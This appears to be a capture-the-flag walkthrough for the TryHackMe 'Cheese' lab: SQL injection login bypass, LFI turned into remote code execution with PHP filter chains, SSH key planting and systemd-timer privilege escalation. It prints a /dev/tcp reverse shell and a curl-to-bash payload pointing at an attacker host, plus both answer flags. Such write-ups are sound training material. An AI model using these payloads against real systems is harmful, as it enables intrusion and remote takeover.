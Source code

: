![1](./images/0.png)
This walkthrough details the step-by-step process of solving the CHEESE CTF, covering reconnaissance, exploitation, privilege escalation, and ultimately gaining root access. The target machine had several vulnerabilities, including SQL injection, Local File Inclusion (LFI), and misconfigured systemd timers.


### **1. Initial Reconnaissance**

**Port Scanning**

- Used Nmap to scan the first 1000 ports (nmap -p 1-1000 <TARGET_IP>).
![1](./images/1.png)

- Found that FTP (21), SSH (22), and HTTP (80) were open.
- Ran a detailed scan on these ports (nmap -sV -A -p 21,22,80 <TARGET_IP>) to identify services and versions.
![1](./images/2.png)

**FTP Enumeration**

- Attempted to connect via FTP (ftp <TARGET_IP>), but encountered an error.
 ![3](https://github.com/user-attachments/assets/ff96c1ee-cb1a-4cac-b203-b8d301db921f)
Possible issues:
- Anonymous login disabled.
- Credentials required (not yet obtained).

**Web Enumeration (Port 80)**
- Visited http://<TARGET_IP> and inspected the page.
![4](https://github.com/user-attachments/assets/0ff111fc-e85f-47b3-b0f2-688dd9545174)

- Checked the source code for hidden comments or secrets—nothing found.
![5](https://github.com/user-attachments/assets/866ee626-b598-4b1b-b901-328905eaf49b)

- Discovered a login page (/login.php). 
![6](https://github.com/user-attachments/assets/c3569166-9430-453d-aba2-e175b484654b)



### **2. Exploiting SQL Injection**
**SQLmap for Automated Testing**

- Ran SQLmap to test for SQLi:
`sqlmap -u "http://<TARGET_IP>/login.php" --forms --batch`
![7](https://github.com/user-attachments/assets/2116f5ba-01dd-470d-929c-d4f93d7f363a)

- Found a SQL injection vulnerability in the login form and the redirection.
![8](https://github.com/user-attachments/assets/afe330b3-0a7e-45f7-ba85-4ec938bb7e8d)

- Extracted database information, including a username (comte) and its password hash.
![9](https://github.com/user-attachments/assets/c8a7e7d1-8100-4bff-b44e-ca309d333714)


**Manual SQL Injection Bypass**

- Used a classic SQLi payload to bypass authentication:
```
Username: comte ' AND 1='1 --
Password: anything
```
![10](https://github.com/user-attachments/assets/f53cabec-be72-481b-8f71-5dccca1cff78)

- Successfully logged in and was redirected to a dashboard (/dashboard.php).
![11](https://github.com/user-attachments/assets/53e055b8-aa84-4a85-af9e-4e56e1355783)



### **3. Exploiting Local File Inclusion (LFI)**
**Testing LFI in the file Parameter**

- Discovered an LFI vulnerability in the file parameter (e.g., ?file=/etc/passwd).
- Retrieved /etc/passwd, confirming user comte exists.
![12](https://github.com/user-attachments/assets/f239a641-8683-4527-8747-c9d05212e21c)


**Reading PHP Files via Base64 Encoding**
- Used PHP filters to read source code:
`?file=php://filter/convert.base64-encode/resource=secret-script.php`
![13](https://github.com/user-attachments/assets/bc848ef3-430f-4120-864f-1f3c62a63ab6)


- Decoded the Base64 output to analyze secret-script.php.
![14](https://github.com/user-attachments/assets/0c5d129c-863c-48b5-afaf-706775ddfd45)


**Log Poisoning → RCE**

- Since the server used PHP, leveraged PHP wrappers for RCE:
Wrote a malicious payload(revshell) with this bash reverse shell.
`bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1` 
- I used the php-filter-chain script from the github to generate the filters to upload 
[🔗 Github link for the script ](https://github.com/synacktiv/php_filter_chain_generator.git)
using command

`python3 php_filter_chain_generator.py --chain '<?= 'curl -s -L <Attacker_IP>/<payload name>|bash' ?>'`
![15](https://github.com/user-attachments/assets/1d7ffe22-ade6-415e-b3a3-0f0dff277c24)

- Hosted it on a local server and triggered it via LFI.
`python3 -m http.server 80`
- Set up a listener  and received a shell.
`nc -lvnp <port>`
![16](https://github.com/user-attachments/assets/66814261-96fa-4b99-8ede-f08af2717c1f)


**User Flag**
- Found the user.txt in the home/comte directory but it had no permissions for us. as we are logged in as `www-data`
![17](https://github.com/user-attachments/assets/ac1b57c6-30e8-44d2-86e7-2b06a5b84d18)

- Found that /home/comte/.ssh/ had write permissions.
![18](https://github.com/user-attachments/assets/f3b421dd-c113-4296-91f3-ce1d969baaf6)

- Generated an SSH key pair (ssh-keygen).
![19](https://github.com/user-attachments/assets/f20e2be6-e418-47f6-8bba-ae55d2e25b91)

- Copied the public key (.pub) into authorized_keys.
![20](https://github.com/user-attachments/assets/d1607631-50de-4447-989a-74605bc9c272)

- Logged in via SSH and obtained the user flag.
`ssh comte@<TARGET_IP>`
![21](https://github.com/user-attachments/assets/09b87653-158c-417d-9ec0-81dd514f869e)
`THM{9f2ce3df1beeecaf695b3a8560c682704c31b17a}`


### **4. Privilege Escalation (User → Root)**
**Abusing Systemd Timer Privileges**
- Checked sudo privileges (sudo -l), found systemctl access.
![22](https://github.com/user-attachments/assets/e5de6f88-6066-4009-a878-a27a1442a99e)
- Discovered a misconfigured systemd timer (exploit.timer). and Modified the timer to execute immediately:
```
OnBootSec=0  
OnUnitActiveSec=0  
```
- ![23](https://github.com/user-attachments/assets/a6392e95-c03c-400d-9cff-797bcc587fec)


- Found the services it will triggered

![24](https://github.com/user-attachments/assets/faa4280e-4aee-467c-b5cd-1e85a7e4244a)

- I looked in the .services and then I started the timer.
`sudo systemctl start exploit.timer`
![25](https://github.com/user-attachments/assets/d97e5090-3ad1-42c6-b4a7-58be453bdefa)


**Reading Root Flag via xxd**
- Found that xxd (a hexdump utility) saved as a copy had SUID permissions.
![26](https://github.com/user-attachments/assets/b67576f6-6dad-4efc-8254-9fed5e1c0ca3)

- Used xxd to read /root/root.txt:
`xxd "/root/root.txt" | xxd -r`
![27](https://github.com/user-attachments/assets/5760dad8-4b5c-4364-a53a-be793792d92c)
`THM{dca75486094810807faf4b7b0a929b11e5e0167c}`
